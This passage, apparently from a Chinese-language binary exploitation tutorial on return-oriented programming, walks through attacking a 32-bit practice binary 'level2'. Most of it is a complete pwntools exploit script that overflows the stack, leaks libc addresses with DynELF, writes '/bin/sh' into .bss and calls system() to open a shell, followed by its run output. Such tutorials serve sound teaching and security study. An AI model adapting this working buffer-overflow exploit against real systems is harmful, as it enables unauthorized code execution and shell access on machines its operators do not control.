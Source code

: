 因为我们在执行完read()之后要接着调用 `system(“/bin/sh”)` ，并且read()这个函数的参数有三个，所以我们需要一个pop pop pop ret的gadget用来保证栈平衡。这个gadget非常好找，用objdump就可以轻松找到。PS：我们会在随后的章节中介绍如何用工具寻找更复杂的gadgets。

整个攻击过程如下：首先通过DynELF获取到system()的地址后，我们又通过read将“/bin/sh”写入到.bss段上，最后再调用 `system（.bss）` ，执行“/bin/sh”。最终的exp如下:

```
#!python
#!/usr/bin/env python
from pwn import *
elf = ELF('./level2')
plt_write = elf.symbols['write']
plt_read = elf.symbols['read']
vulfun_addr = 0x08048474
def leak(address):
    payload1 = 'a'*140 + p32(plt_write) + p32(vulfun_addr) + p32(1) +p32(address) + p32(4)
    p.send(payload1)
    data = p.recv(4)
    print "%#x => %s" % (address, (data or '').encode('hex'))
    return data
p = process('./level2')
#p = remote('127.0.0.1', 10002)
d = DynELF(leak, elf=ELF('./level2'))
system_addr = d.lookup('system', 'libc')
print "system_addr=" + hex(system_addr)
bss_addr = 0x0804a020
pppr = 0x804855d
payload2 = 'a'*140  + p32(plt_read) + p32(pppr) + p32(0) + p32(bss_addr) + p32(8) 
payload2 += p32(system_addr) + p32(vulfun_addr) + p32(bss_addr)
#ss = raw_input()
print "\n###sending payload2 ...###"
p.send(payload2)
p.send("/bin/sh\0")
p.interactive() 

```

执行结果如下：

```
#!bash
$ python exp4.py 
[+] Started program './level2'
0x8048000 => 7f454c46
[+] Loading from '/home/mzheng/CTF/level2': Done
0x8049ff8 => 18697eb7
[+] Resolving 'system' in 'libc.so': 0xb77e6918
0x8049f28 => 01000000
0x8049f30 => 0c000000
0x8049f38 => 0d000000
0x8049f40 => f5feff6f
0x8049f48 => 05000000
0x8049f50 => 06000000
0x8049f58 => 0a000000
0x8049f60 => 0b000000
0x8049f68 => 15000000
0x8049f70 => 03000000
0x8049f74 => f49f0408
0xb77e691c => c5eb7db7
0xb77debc5 => 0069203d
0xb77e6924 => 086c7eb7
0xb77e6c0c => c5eb7db7
0xb77e6c14 => 58387cb7
0xb77c385c => 38387cb7
0xb77c3838 => 2f6c6962
0xb77c383c => 2f693338
```